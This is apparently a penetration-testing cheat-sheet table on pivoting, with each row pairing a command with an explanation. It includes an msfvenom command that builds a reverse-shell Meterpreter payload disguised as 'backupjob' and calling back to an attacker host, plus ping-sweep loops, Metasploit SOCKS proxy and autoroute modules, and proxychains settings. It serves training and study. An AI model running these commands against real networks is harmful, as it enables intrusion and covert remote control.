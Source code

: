 | `msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IPaddressofAttackHost -f elf -o backupjob LPORT=8080`                                                                                                        | Uses msfveom to generate a Linux-based Meterpreter reverse TCP payload that calls back to the IP specified after `LHOST=` on port 8080 (`LPORT=8080`). Payload takes the form of an executable elf file called backupjob.                                               |
| `msf6> run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23`                                                                                                                                                      | Metasploit command that runs a ping sweep module against the specified network segment (`RHOSTS=172.16.5.0/23`).                                                                                                                                                        |
|                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                         |
| `for i in {1..254} ;do (ping -c 1 172.16.5.$i \| grep "bytes from" &) ;done`                                                                                                                                       | For Loop used on a Linux-based system to discover devices in a specified network segment.                                                                                                                                                                               |
| `for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 \| find "Reply"`                                                                                                                                           | For Loop used on a Windows-based system to discover devices in a specified network segment.                                                                                                                                                                             |
| `1..254 \| % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}`                                                                                                                          | PowerShell one-liner used to ping addresses 1 - 254 in the specified network segment.                                                                                                                                                                                   |
| `msf6 > use auxiliary/server/socks_proxy`                                                                                                                                                                          | Metasploit command that selects the `socks_proxy` auxiliary module.                                                                                                                                                                                                     |
| `msf6 auxiliary(server/socks_proxy) > jobs`                                                                                                                                                                        | Metasploit command that lists all currently running jobs.                                                                                                                                                                                                               |
| `socks4 127.0.0.1 9050`                                                                                                                                                                                            | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 4 proxy is used in combination with proxychains on the specified IP address and port.                                                                                              |
| `Socks5 127.0.0.1 1080`                                                                                                                                                                                            | Line of text that should be added to /etc/proxychains.conf to ensure a SOCKS version 5 proxy is used in combination with proxychains on the specified IP address and port.                                                                                              |
| `msf6 > use post/multi/manage/autoroute`                                                                                                                                                                           | Metasploit command used to select the autoroute module.                                                                                                                                                                                                                 |
|                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                         |